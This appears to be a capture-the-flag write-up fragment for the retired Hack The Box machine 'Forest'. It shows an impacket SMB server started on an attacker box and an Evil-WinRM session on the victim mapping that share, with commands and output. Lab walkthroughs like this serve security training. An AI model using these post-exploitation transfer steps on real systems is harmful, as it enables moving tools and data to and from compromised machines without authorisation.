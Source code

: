 # Uploading files to forest machine via smbserver
First made a directory named `smb` , cd into that directory and run the command on kali machine `mpacket-smbserver clarkey $(pwd) -smb2support -user clark -password clark1234` to start smbserver in `smb` directory.
```bash
~/Dropbox/Documents/htb/boxes/RETIRED_BOXES/forest_retired/smb ❯ impacket-smbserver clarkey(smbshare name) $(pwd){make present directory as share folder} -smb2support -user clark(username for smbshare) -password clark1234(password for smbshare) 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
Then ran following commands on victim(forest machine).
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $pass = convertto-securestring 'clark1234' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $pass
System.Security.SecureString
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $cred = New-Object System.Management.Automation.PSCredential('clark', $pass)
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $cred

UserName                     Password
--------                     --------
clark    System.Security.SecureString


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> New-PSDrive -Name clark -PSProvider Filesystem -Credential $cred -Root \\10.10.14.105\clarkey

Name           Used (GB)     Free (GB) Provider      Root                                                                                                                                                                                 CurrentLocation
----           ---------     --------- --------      ----                                                                                                                                                                                 ---------------
clark                                  FileSystem    \\10.10.14.105\clarkey


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop>
```

